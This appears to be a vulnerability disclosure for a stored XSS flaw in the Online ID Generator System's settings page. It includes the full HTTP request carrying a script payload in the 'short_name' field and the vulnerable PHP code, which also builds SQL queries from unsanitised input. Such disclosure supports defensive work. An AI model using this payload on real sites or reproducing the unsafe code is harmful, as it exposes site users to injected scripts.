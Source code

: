 # [Online ID Generator System-Stored XSS-SystemSettings.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.sourcecodester.com/php/14917/online-id-generator-system-using-php-free-source-code.html

**[Affected Version]:** Online ID Generator System V1.0

**[Test Environment]:** windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"id_generator_db"**.

5. **Import** the provided **`SQL`** file. The file is known as **`id_generator_db.sql`** located inside the **database** folder.

6. **Browse** the **Online ID Generator System** in a **browser**. i.e. **`http://localhost/id_generator`**.

   **Admin Access Information:**

   Username: **admin**
   Password: **admin123**

## Bug Information

**[Vulnerability type]:** Stored XSS

**[Vulnerability Url]:** `http://localhost/id_generator/classes/SystemSettings.php?f=update_settings`

**[Vulnerability Location]:** /id_generator/classes/SystemSettings.php

**[Vulnerability Test]:**

1. View `http://localhost/id_generator/admin/?page=system_info`, Insert the XSS payload in **"System Short Name"**.

   ![](../../img/20240610175902.png)

2. After clicking the update button, the update is successful and the XSS payload is successfully stored in the database.

   ```bash
   POST /id_generator/classes/SystemSettings.php?f=update_settings HTTP/1.1
   Host: localhost
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
   Accept: */*
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate
   X-Requested-With: XMLHttpRequest
   Content-Type: multipart/form-data; boundary=---------------------------3313215257860267042313796715
   Content-Length: 500
   Origin: http://localhost
   Connection: close
   Referer: http://localhost/id_generator/admin/?page=system_info
   Cookie: Phpstorm-10d910bb=a6bc0397-210c-4145-96b8-e9aedf363376; PHPSESSID=ms6rnpocokf8ja6rm60paue6re
   
   -----------------------------3313215257860267042313796715
   Content-Disposition: form-data; name="name"
   
   Online ID Generator System - PHP
   -----------------------------3313215257860267042313796715
   Content-Disposition: form-data; name="short_name"
   
   <script>alert(1)</script>
   -----------------------------3313215257860267042313796715
   Content-Disposition: form-data; name="img"; filename=""
   Content-Type: application/octet-stream
   
   
   -----------------------------3313215257860267042313796715--
   
   ```

3. Visit ``http://localhost/id_generator/admin/?page=system_info`, and a pop-up window appears.

   ![](../../img/20240610180019.png)

   ![](../../img/20240610180226.png)

**[code analysis]:**

in /id_generator/classes/SystemSettings.php:

```php
function update_settings_info(){
    $data = "";
    foreach ($_POST as $key => $value) {
        if(!in_array($key,array("about_us","privacy_policy")))
            if(isset($_SESSION['system_info'][$key])){
                $value = str_replace("'", "&apos;", $value);
                $qry = $this->conn->query("UPDATE system_info set meta_value = '{$value}' where meta_field = '{$key}' ");
            }else{
                $qry = $this->conn->query("INSERT into system_info set meta_value = '{$value}', meta_field = '{$key}' ");
            }
    }
    if(isset($_POST['about_us'])){
        file_put_contents('../about.html',$_POST['about_us']);
    }
    if(isset($_POST['welcome_content'])){
        file_put_contents('../welcome_content.html',$_POST['welcome_content']);
    }
    if(isset($_FILES['img']) && $_FILES['img']['tmp_name'] != ''){
        $fname = 'uploads/'.strtotime(date('y-m-d H:i')).'_'.$_FILES['img']['name'];
        $move = move_uploaded_file($_FILES['img']['tmp_name'],'../'. $fname);
        if(isset($_SESSION['system_info']['logo'])){
            $qry = $this->conn->query("UPDATE system_info set meta_value = '{$fname}' where meta_field = 'logo' ");
            if(is_file('../'.$_SESSION['system_info']['logo'])) unlink('../'.$_SESSION['system_info']['logo']);
        }else{
            $qry = $this->conn->query("INSERT into system_info set meta_value = '{$fname}',meta_field = 'logo' ");
        }
    }
    if(isset($_FILES['cover']) && $_FILES['cover']['tmp_name'] != ''){
        $fname = 'uploads/'.strtotime(date('y-m-d H:i')).'_'.$_FILES['cover']['name'];
        $move = move_uploaded_file($_FILES['cover']['tmp_name'],'../'. $fname);
        if(isset($_SESSION['system_info']['cover'])){
            $qry = $this->conn->query("UPDATE system_info set meta_value = '{$fname}' where meta_field = 'cover' ");
            if(is_file('../'.$_SESSION['system_info']['cover'])) unlink('../'.$_SESSION['system_info']['cover']);
        }else{
            $qry = $this->conn->query("INSERT into system_info set meta_value = '{$fname}',meta_field = 'cover' ");
        }
    }

    $update = $this->update_system_info();
    $flash = $this->set_flashdata('success','System Info Successfully Updated.');
    if($update && $flash){
        // var_dump($_SESSION);
        return true;
    }
}

function update_system_info(){
    $sql = "SELECT * FROM system_info";
    $qry = $this->conn->query($sql);
    while($row = $qry->fetch_assoc()){
        if(isset($_SESSION['system_info'][$row['meta_field']]))unset($_SESSION['system_info'][$row['meta_field']]);
        $_SESSION['system_info'][$row['meta_field']] = $row['meta_value'];
    }
    return true;
}
```

Finally, the `update_system_info` function is called to update the values in the `system_info` table, including the value of `short_name`.

/id_generator/admin/system_info/index.php

```php+HTML
<div class="form-group">
    <label for="short_name" class="control-label">System Short Name</label>
    <input type="text" class="form-control form-control-sm" name="short_name" id="short_name" value="<?php echo  $_settings->info('short_name') ?>">
</div>
```

And the output is made in the page.